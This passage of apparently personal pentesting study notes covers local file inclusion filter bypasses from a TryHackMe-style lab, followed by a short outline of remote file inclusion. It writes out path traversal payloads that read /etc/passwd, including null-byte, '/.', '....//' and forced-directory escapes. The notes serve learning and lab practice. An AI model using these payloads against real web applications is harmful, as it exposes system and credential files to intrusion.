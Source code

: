 `include("languages/../../../../../etc/passwd%00").".php");` which equivalent to `include("languages/../../../../../etc/passwd");`
### Bypass filter keywords
Now the site has a filter keywords like `sensitive files are now allowed`
####  [[Poison Null Byte\|Poison Null Byte]]
`http://webapp.thm/lab3.php?file=../../../../../etc/passwd%00`
#### Try `/.`
e.g. `cd .`, It stays in the current directory.
`http://webapp.thm/lab3.php?file=../../../../../etc/passwd/.`
### Bypass `../` filter
The app `../` with the empty string.
PHP filter only matches and replaces the first subset string `../`
![Pasted image 20240707095536.png|300](/img/user/Pentesting%20Web/attachments/Pasted%20image%2020240707095536.png)
`http://webapp.thm/index.php?lang=../../../../etc/passwd`
We got the following error!  
```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```
Payload to bypass it: `....//....//....//....//....//etc/passwd`
### Bypass forces directory
The developer forces the include to read from a defined directory! like:
`http://webapp.thm/index.php?lang=languages/EN.php`
the payload
`?lang=languages/../../../../../etc/passwd.`

# Check ![[Important files\|Important files]]


</div></div>

# 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- Remote file inclusion
- Technique to include **remote files** into a vulnerable application
- This files can be loaded from other servers
- Occurs when improperly sanitizing user input.
- Allowing an attacker to inject an external URL into **include function.**
- One **requirement** is that the **allow_url_fopen** option needs to be **on**.
- Server access
	- RSA
	- logs (var/log)
- Consequences
	- Get a [[Operative System/Linux/Commands/Reverse shell\|reverse shell]]
	- Sensitive Information Disclosure
	- Cross-site Scripting ([[XSS\|XSS]])
	- Denial of Service ([[DoS\|DoS]])
![Pasted image 20240417200755.png|500](/img/user/Pasted%20image%2020240417200755.png)
![Pasted image 20240707105729.png|800](/img/user/attachments/Pasted%20image%2020240707105729.png)
